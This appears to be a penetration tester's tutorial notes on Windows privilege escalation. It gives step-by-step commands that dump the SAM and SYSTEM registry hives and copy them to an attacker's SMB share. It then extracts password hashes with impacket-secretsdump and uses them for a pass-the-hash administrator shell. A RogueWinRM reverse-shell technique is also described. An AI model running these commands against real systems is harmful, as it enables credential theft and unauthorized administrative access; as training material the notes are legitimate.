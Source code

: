 # Abusing privileges

**To view the privileges of the current user:**

```powershell
C:\> whoami /priv
```

### SeBackup / SeRestore

The `impacket` tool can be used to perform various tasks such as starting a _SMB_ server, dumping secrets from hives in the Windows registry, and running commands with `psexec`, among many others.

Refer to my `impacket` notes for more information:

{% embed url="https://jarrettgxz-sec.gitbook.io/penetration-testing-ethical-hacking/tools-services/general/impacket" %}

Suppose we have gained a remote shell on a server with the `SeBackUp` and `SeRestore` privileges

```powershell
C:\target> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeBackupPrivilege             Back up files and directories  ...
SeRestorePrivilege            Restore files and directories  ...
```

Due to the set privileges, we are able to save the contents of the `SAM` and `SYSTEM` hive registry to a location of our choice (`C:\Users\jarrett\system.hive` and `C:\Users\jarrett\sam.hive` in this case):

```powershell
C:\target> reg save hklm\system C:\Users\jarrett\system.hive
C:\target> reg save hklm\sam C:\Users\jarrett\sam.hive
```



The command below starts a simple _SMB_ server on the attacker machine with a network share named `public` pointing to the `share` directory. This allows us to transfer the files from the target machine to the attacker at a particular share point (`share` folder).

_**Attacker machine**_

```bash
attacker@attacker_ip:~$ impacket-smbserver -smb2support -username jarrett -password mynamejeff public share
```



The command below copies the content of `system.hive` and `sam.hive` at the specified directory to the share point on the attacker machine.

_**Target machine**_

```powershell
C:\target> copy c:\users\jarrett\system.hive \\<attacker_ip>\public\
C:\target> copy c:\users\jarrett\sam.hive \\<attacker_ip>\public\

```



**The next few commands should be ran from the attacker machine**

The command below dumps the hashes from the `sam.hive`and `system.hive`files present on the current folder (specified by the `LOCAL` target option).

```bash
attacker@attacker_ip:~/share$ ls 
sam.hive system.hive

attacker@attacker_ip:~/share$ impacket-secretsdump -sam sam.hive -system system.hive LOCAL
Impacket vxxx - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: ...
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
...:::
Guest:xxx:xxx:xxx::
Administrator:xx12xx:xx34xx::
...
```

The command below uses the hashes found from the `impacket-secretsdump` command above, to authenticate as the _**administrator**_ user. This provides us with a remote shell as the _administrator_ user on the target Windows machine

```bash
attacker@attacker_ip:~/share$ impacket-psexec -hashes xx12xx:xx34xx administrator@10.10.x.x
...

C:\Windows\system32> 
```



### SeImpersonate / SeAssignPrimaryToken

* **SeImpersonate**: Impersonate another user’s security context.
* **SeAssignPrimaryToken**: Assigns a new security token to a process, effectively allowing a process to impersonate a higher-privileged user (such as `SYSTEM`).

Breakdown of how the `RogueWinRM` exploit tool works (As of time of writing, I wasn't able to find a comprehensive technical guide on how it works. However, I have pieced together the key points from research on the main concepts involved in this exploit):

1.  The Background Intelligent Transfer Service (_BITS_) is started, which automatically initiates a connection to port 5985 (used by _WinRM_) using `SYSTEM` privileges.

    * &#x20;Port 5985 is typically used for the _WinRM_ service, which is simply a port that exposes a _Powershell_ console to be used remotely through the network.&#x20;
    * The SYSTEM-level authentication credentials can be captured from the above-mentioned connection to _WinRM_ on the local target machine (port 5985)&#x20;


2. The captured authentication credentials can be used to execute a malicious payload of choice (specified as argument to the `RogueWinRM` tool) with SYSTEM-level privileges. This is due the `SeImpersonate` and `SeAssignPrimaryToken` privileges being set on the user on the target machine
   * A reverse shell connection can be established to a remote attacker server, essentially providing a SYSTEM-level shell



{% embed url="https://learn.microsoft.com/en-us/windows/win32/bits/background-intelligent-transfer-service-portal" %}
BITS service
{% endembed %}

_**Windows privileges to admin list**_

{% embed url="https://github.com/gtworek/Priv2Admin" %}
